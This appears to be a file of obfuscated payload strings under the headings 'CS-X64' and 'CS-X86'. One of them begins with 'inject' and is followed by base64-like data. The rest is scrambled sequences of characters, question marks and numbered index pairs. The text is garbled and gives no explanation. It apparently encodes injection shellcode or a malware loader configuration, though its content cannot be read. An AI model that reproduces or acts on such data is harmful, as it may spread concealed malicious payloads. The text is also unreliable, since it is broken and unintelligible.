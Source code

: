 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

ewgth45|2,????q????;6,y;??10??,X;14????,T;18???,f??;22,B??;26,L?;30??,o;?34??,???O????;38,???Q;???4????2??,v;46????,I;5????0,z???;???54,4;??58,??5;?62,8;???66,O;????70,??,;7?4,?D;78,???H???;82,??G;86????,???Q;9?0,D;9??4,K;???98,X?;102??,C;1???06,???t;110??,l;1????1?4,H;?118,l?;12??2,H?;???126,4??;1????3????0,a???;13????4,g;1?38,p?;14??2???,???D;??14??6,???d???;150?,j???;154???,h;1?58,??e???;1????62,??1;???16?6,u;1????70,????z;1???74,d??;????178,T????;|u??y????Hqms??gy????i???ntXz?tmTt?ELf???w5vBJ???HDLOv?Y??odB?bOsHf???QPzz?vHf????oIgB????n????z??tTN4??IzB5???j?L???S8My5??ODr????v,YK????oDr??xmHd????meG??z1?e???QwDE???DrM?fKNt???zX?vKZCW???uttDf??wlvD???PHo?5t?lAbw??H4???eW???4d????tnaB??kfg?UPt????p???zxH????D1????rzdwO??Kj??nH????DhjM?xeNrb????1AI????tu0K????tz???P?Mrdq?p????=???T=fwsed


bestyes3????4|2????,u;6,???f?;10???,7;14????,e;1??8,d??;22,????e;26??,n;3????0,o???;34?,e;?38,d?;42????,1;46???,j;50??,k;54???,????e???;5??8???,Y;6???2????,????s;66???,%;????70????,y;??74,???a;78????,???L????;82,?v;86,?q???;90???,o;????9????4,O??;9???8,.;???102,???W?;106?,%??;1????10???,b??;114?,S;????118,?m;12??2,?L;12?6????,Z?;????130,?d;?134????,I;???|h???AruC????0?hf6?m?l79YY?ex???yCd????zU2e???0LA????nvhI????oxD??neCL??MdVnB????1rN????LjNBq???kyU????2eT????9lY10???5s????g??Dv?%D?Ze????yVnD??a5w?0????L??wlvvz?U??Yq0????9?zon?x???0O??3?lj????.zLNW?VmA%v????gHb????hz??mSBV???wmPfB??L9??IT???ZxErd??C??L3I????=qnotno
